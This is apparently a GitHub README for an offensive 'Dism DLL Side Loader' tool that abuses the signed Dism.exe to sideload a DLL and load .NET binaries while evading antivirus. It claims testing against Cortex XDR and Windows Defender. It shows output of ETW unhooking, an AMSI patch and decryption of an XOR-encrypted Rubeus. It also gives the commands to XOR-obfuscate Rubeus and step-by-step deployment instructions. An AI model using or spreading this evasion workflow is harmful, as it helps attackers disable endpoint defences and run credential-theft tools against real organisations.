 # Dism DLL Side Loader
Combine Dism whitelisting and all side load netloader to load c# or .NET binary to bypass AV. 
Tested on 22-10-2022 with Cortex XDR and Windows Defender.

## Usage
Compile the dll library, change name of dll to "DismCore.dll", put Dism.exe and DismCore.dll in the same directory and run.

```
.\Dism.exe
[+] Successfully unhooked ETW!
[+] Successfully patched AMSI!
==>Path: D:\tools\xor_rubeus
==>key: P
==>args:
[+] Decrypting XOR encrypted binary using key 'P'
[+] URL/PATH : D:\tools\AV bypass\Netloader_orginal\xor_ru Arguments :

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0
```
## Encrypt XOR binary
use xor&#46;py
### Encryption
```
cat Rubeus.exe | python xor.py "P" > xor_ru
```
### Decryption
```
cat xor_ru | python xor.py "P" > Rubeus.exe
```


## Credit
May need to run DllExport.bat before compile.
https://jackkuo.org/post/export_unmanaged_dll_from_csharp/
https://github.com/3F/DllExport

Netloader
https://github.com/Flangvik/NetLoader

xor&#46;py
https://github.com/ShawnDEvans/xorpy

Thank you darklab people. Especially Erwin and Dennis ^^